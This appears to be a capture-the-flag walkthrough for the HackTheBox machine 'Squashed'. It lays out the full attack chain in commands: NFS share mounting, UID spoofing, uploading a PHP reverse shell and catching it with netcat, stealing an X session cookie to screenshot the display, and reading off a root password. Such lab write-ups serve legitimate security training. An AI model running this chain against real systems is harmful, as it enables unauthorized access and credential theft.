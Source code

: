 ```yaml
---
cover: ../../../../.gitbook/assets/Squashed.png
coverY: 245.19466666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Squashed

Tools : `convert` `python3` `xwd` `w` `export` `cat` `echo` `usermod` `groupmod` `useradd` `nc` `curl` `mount` `showmount` Subjects : `rpcinfo` `nfs` `KeePass`

## Port Discovery

```bash
kali@kali| echo '10.10.11.191 squashed.htb' | sudo tee -a /etc/hosts
kali@kali| ports=$(nmap -p- --min-rate=1000 -T4 squashed.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
kali@kali| nmap -p $port -sV -sC squashed.htb
```

| Port  | Protocol     | Version                         |
| ----- | ------------ | ------------------------------- |
| 22    | ssh          | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 |
| 80    | http         | Apache httpd 2.4.41 ((Ubuntu))  |
| 111   | rpcbind      | 2-4 (RPC #100000)               |
| 2049  | nfs\_acl     | 3 (RPC #100227)                 |
| 33629 | mountd       | 1-3 (RPC #100005)               |
| 37459 | mountd       | 1-3 (RPC #100005)               |
| 46677 | nlockmanager | 1-4 (RPC #100021)               |
| 52561 | mountd       | 1-3 (RPC #100005)               |

## Web Directory Discovery

```bash
kali@kali| ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://squashed.htb/FUZZ -fs 32532
```

Discovered urls :

| Url                               | Code |
| --------------------------------- | ---- |
| http://squashed.htb/css           | 301  |
| http://squashed.htb/js            | 301  |
| http://squashed.htb/images        | 301  |
| http://squashed.htb/server-status | 403  |

## NFS

```bash
kali@kali| showmount -e squashed.htb
```

The shared files : `/home/ross` `/var/www/html`

```bash
kali@kali| mkdir /tmp/mount1
sudo@kali| mount -t nfs squashed.htb:/var/www/html /tmp/mount1 -o nolock

kali@kali| mkdir /tmp/mount2
root@kali| mount -t nfs squashed.htb:/home/ross /tmp/mount2 -o nolock
```

The user with the UID 2017 has `rwx` permissions for `mount1`.

<figure><img src="../../../../.gitbook/assets/squashed-2017.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd john
root@kali| usermod -u 2017 john
root@kali| su john
john@kali| cd /tmp/mount1
```

<figure><img src="../../../../.gitbook/assets/squashed-mount1.png" alt=""><figcaption></figcaption></figure>

This is the web server repository. Upload a reverse shell on the target and don't forget to update the ip of the attacker in the `php-reverse-shell.php`.

```bash
john|kali| cp /usr/share/webshells/php/php-reverse-shell.php /tmp/mount1/shell.php
```

<figure><img src="../../../../.gitbook/assets/squashed-php.png" alt=""><figcaption></figcaption></figure>

In one terminal, launch netcat.

```bash
kali@kali| nc -lnvp 1234
```

In a second terminal execute `curl`.

```bash
kali@kali| curl http://squashed.htb/shell.php
```

In the first terminal, the reverse shell appears.

```bash
alex@target| python3 -c "import pty;pty.spawn('/bin/bash')"
alex@target| cat /home/alex/user.txt
```

The user with the UID 1001 has `rwx` permissions for `mount2`.

<figure><img src="../../../../.gitbook/assets/squashed-1001.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd jane
root@kali| usermod -u 1001 jane
```

<figure><img src="../../../../.gitbook/assets/squashed-authority.png" alt=""><figcaption></figcaption></figure>

```bash
jane@kali  | cat /mnt/2/.Xauthority | base64  # output is AQAADHN<...SNIP...>S0xAoNm/oZZ4/
alex@target| echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
alex@target| export XAUTHORITY=/tmp/.Xauthority
alex@target| w
```

<figure><img src="../../../../.gitbook/assets/squashed-session.png" alt=""><figcaption></figcaption></figure>

```bash
alex@target| xwd -root -screen -silent -display :0 > /tmp/screen.xwd
alex@target| python3 -m http.server
kali@kali  | wget http://squashed.htb:8000/screen.xwd
kali@kali  | convert screen.xwd screen.png
```

<figure><img src="../../../../.gitbook/assets/squashed-screen.png" alt=""><figcaption></figcaption></figure>

The credentials are `root:cah$mei7rai9A`.

```bash
alex@target| su root             # prompt password, enter "cah$mei7rai9A"
root@target| cat /root/root.txt
```

